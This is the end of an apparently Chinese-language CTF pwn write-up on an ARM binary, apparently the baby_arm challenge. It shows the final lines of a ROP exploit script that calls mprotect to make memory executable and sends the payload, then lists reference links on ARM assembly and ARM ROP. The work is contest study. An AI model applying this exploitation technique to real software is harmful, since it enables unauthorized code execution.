 ```
payload += p64(mprotect_point)+p64(7)
payload += p64(0x1000)+p64(0x000000000411000)
payload += p64(0)+p64(0x411068)





sl(payload)
ri()


```

参考
--

[ARM 汇编指令集](https://blog.csdn.net/zqixiao_09/article/details/50726544)  
[【上海市大学生网络安全大赛】pwn 复现](https://zszcr.github.io/2018/11/05/2018-11-5-%E3%80%90%E4%B8%8A%E6%B5%B7%E5%B8%82%E5%A4%A7%E5%AD%A6%E7%94%9F%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8%E5%A4%A7%E8%B5%9B%E3%80%91baby_arm%E5%A4%8D%E7%8E%B0/)  
[arm – ROP](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/arm/arm_rop-zh/)